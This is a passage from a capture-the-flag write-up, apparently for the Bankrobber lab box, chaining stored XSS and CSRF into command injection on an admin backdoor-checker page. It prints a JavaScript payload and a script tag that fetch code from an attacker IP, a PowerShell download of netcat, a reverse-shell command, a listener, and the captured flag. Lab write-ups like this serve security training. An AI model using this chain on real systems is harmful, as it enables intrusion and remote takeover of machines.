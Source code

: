 ### XSS + XSRF = Shell

I can easily escape the initial filters to run whatever I want using `;` or `|` to chain additional commands to `dir`. I need to figure out how to send my request from localhost.

This is where I can use the XSS. In a real life scenario, this server likely wouldn’t be restricting access to localhost, but rather the internal network, or even just the admin subnet of that network. And the admin wouldn’t be checking the submissions from the server, but from a box that would likely be able to submit to backdoorchecker. But I’ll hypothesize that in this case, the admin user is on Bankrobber, and thus can submit requests to backdoorchecker from there.

I’ll craft a Javascript payload that will issue the request to `/admin/backdoorchecker.php`, and call it `shell.js`:

```js
var request = new XMLHttpRequest();
var params = 'cmd=dir|powershell -c "iwr -uri 10.10.14.5/nc64.exe -outfile %temp%\\n.exe"; %temp%\\n.exe -e cmd.exe 10.10.14.5 443';
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
request.send(params);
```

This will get the admin user to make a request for me, which is a Cross-Site Request Forgery (XSRF) attack.

I’ll submit the XSS payload to get `shell.js` through my logged in user test, and wait for the payload to fire.:

```
<script src="http://10.10.14.5/shell.js"></script>
```

![[Bankrobber-26.png]]

When it does, I’ll see a GET for `shell.js`, which will run, and issuing a POST to `/admin/backdoorchecker.php` with the parameters `cmd=dir|powershell -c "iwr -uri 10.10.14.5/nc64.exe -outfile %temp%\\n.exe"; %temp%\\n.exe -e cmd.exe 10.10.14.5 443`. This will pass all the checks in `backdoorchecker.php`, and pass that on to `system`, which will run the `dir`, followed by the `powershell` to download `nc64.exe` from my server, save it in `%temp%`. Then my commands have it run `nc` to connect back to me with a shell.

```bash
nc -lnvp 443
```

![[Bankrobber-27.png]]

```bash
whoami
type C:\Users\Cortin\Desktop\user.txt
# flag
f635346600876a43441cf1c6e94769ac
```

![[Bankrobber-28.png]]
